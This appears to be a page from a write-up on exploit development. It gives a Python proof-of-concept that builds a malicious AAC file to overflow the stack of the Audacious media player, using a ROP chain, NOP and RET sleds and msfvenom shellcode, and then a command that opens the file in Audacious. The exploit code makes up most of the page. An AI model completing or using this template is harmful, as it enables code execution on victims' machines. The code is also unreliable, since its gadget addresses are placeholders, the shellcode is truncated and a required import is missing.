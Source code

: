 ## Proof of Concept Development

### Malicious AAC File Structure

The exploit requires a specially crafted `.aac` file:

```python
#!/usr/bin/env python
# Audacious AAC Exploit PoC

def create_malicious_aac():
    """
    Generate malicious AAC file for Audacious stack overflow
    """
    
    # AAC header structure
    aac_header = "AAC_HEADER_MAGIC"
    
    # ROP chain payload
    rop_chain = struct.pack('<I', 0x????????)  # pushad; ret
    rop_chain += struct.pack('<I', 0x68832D18)  # push esp; ret
    rop_chain += struct.pack('<I', 0x????????)  # sub esp, 0x1FF; ret
    
    # RET sled
    ret_sled = struct.pack('<I', 0x????????) * 20
    
    # NOP sled
    nop_sled = "\x90" * 100
    
    # Shellcode (calculator pop for PoC)
    shellcode = "\xfc\x48\x83\xe4\xf0..."  # msfvenom payload
    
    # Buffer overflow trigger
    overflow_data = "A" * 1024  # Trigger stack overflow
    overflow_data += rop_chain
    overflow_data += ret_sled  
    overflow_data += nop_sled
    overflow_data += shellcode
    
    return aac_header + overflow_data

# Generate malicious file
with open("malicious.aac", "wb") as f:
    f.write(create_malicious_aac())
```

### Delivery Mechanisms

**Local Exploitation:**
```bash
# Direct file execution
audacious malicious.aac
```
